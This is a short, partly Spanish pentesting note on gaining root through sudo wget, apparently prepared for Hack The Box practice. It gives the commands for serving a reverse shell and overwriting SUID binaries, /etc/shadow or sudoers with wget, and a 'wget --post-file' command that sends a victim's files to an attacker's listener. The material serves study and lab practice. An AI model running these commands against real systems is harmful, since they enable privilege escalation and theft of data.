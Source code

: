 ## DESCRIPTION
If the machine allows you to run the wget command with the root user you can use it to replace files and run them.

![[Pasted image 20230606133940.png]]


#### Mas información
* https://gtfobins.github.io/gtfobins/wget/
* https://0xdf.gitlab.io/2018/09/29/htb-sunday.html#overwrite-different-suid-binary


## EXPLOITATION

### OPTION 1: 
````

1. There are many possible attacks (to obtain a reverse shell), but the metodology is:

☐ 1º Look up what programming lenguages are used: which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null

☐ 2º Create a reverse shell file.

☐ 3º Enable a Web Server in the same directory where the reverse shell is: python3 -m http.server 80

☐ 4º Using WGET, remplace a root file that you can execute. For example, another binary in sudo -l, a SUID binary, replace root password in shadow (openssl passwd -1 passwordquequeramos), or replace /etc/sudoer/ (su, all. etc): 
sudo wget http://<<IPLOCAL>>/shell.py -O /pathtofile

NOTA: There may be binaries with the SUID active that do not have root as the effective user (we recomend passwd or something with root user (ls -l)).

2. If you onle need to download one file from te victim PC, you can use:

☐ 1º Up a Web Server. NOTE: You cant use PYTHON because it doesnt allow post request. Instead you can use netcat: nca -lvnp 80

☐ 2º Sen the file using post request: sudo wget --post-file=<<PATH TO FILE>> http://<<IP>>/

More information: https://gtfobins.github.io/gtfobins/wget/

````

### OPTION 2 : CREAMOS FICHERO SUDOERS

1. CREAMOS UN FICHERO SUDOERS:
![[Pasted image 20230606134105.png]]

2. LO ENVIAMOS A LA MAQUINA CON → WGET

![[Pasted image 20230606134120.png]]
3. Y YA SOMOS SUDO : SUDO SU

![[Pasted image 20230606134134.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 